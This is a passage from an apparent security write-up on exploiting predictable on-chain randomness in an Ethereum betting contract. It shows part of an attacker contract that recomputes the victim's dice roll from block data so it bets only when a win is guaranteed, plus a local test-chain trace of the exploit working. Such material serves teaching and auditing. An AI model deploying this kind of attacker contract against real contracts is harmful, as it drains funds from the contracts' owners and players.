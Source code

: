 ```js
        console.log ("[ATTACKER] Salt (block.timestamp): ");
        console.logUint (salt);

        console.log ("[ATTACKER] block.number: ");
        console.logUint (block.number);

        console.log ("[ATTACKER] Max: ");
        console.logUint (Max);

        console.log ("[ATTACKER] y: ");
        console.logUint (y);

        console.log ("[ATTACKER] seed: ");
        console.logUint (seed);

        console.log ("[ATTACKER] block.blockhash (seed): ");
        console.logUint (h);

        return uint256((h / x)) % Max + 1;
    }
}
```

Whenever the attacker calls `play()`, the contract will evaluate whether betting now will win or not, and place a bet only when a win is guaranteed.
After several `play()` (but no actual bet, so no ETH lost besides the gas fees), this is the final `console.log` trace (the traces marked with "[ATTACKER]" come from the attacker; the rest, from the victim):
```
eth_sendTransaction
  Contract call:       Caller#play
  Transaction:         0xdce1ffaf00e1169d75169be75bbbd2656ed579a5eb2945090374e5750e804943
  From:                0x70997970c51812dc3a010c7d01b50e0d17dc79c8
  To:                  0x8464135c8f25da09e49bc8782676a84730c318bc
  Value:               1 wei
  Gas used:            171203 of 30000000
  Block #268:          0x46b04c003f4156cfd1b72903a7271a7437c1cecf5196bfe56f89d9f410406569

  console.log:
    [ATTACKER] play()
    [ATTACKER] random()
    [ATTACKER] Salt (block.timestamp):
    1667757710
    [ATTACKER] block.number:
    268
    [ATTACKER] Max:
    100
    [ATTACKER] y:
    446959066280
    [ATTACKER] seed:
    177
    [ATTACKER] block.blockhash (seed):
    4941499346153244964389669230970661844113584232471636265623074547810940469903
    [ATTACKER] dice roll:
    30
    1667757710
    [+] NextPayout()
    Next payout:
    1100000000000000001
    [!] Fallback function triggered
    [*] Inside init() -> msg.value:
    1100000000000000002
    Conditions were met
    [*] inside Participate()
```
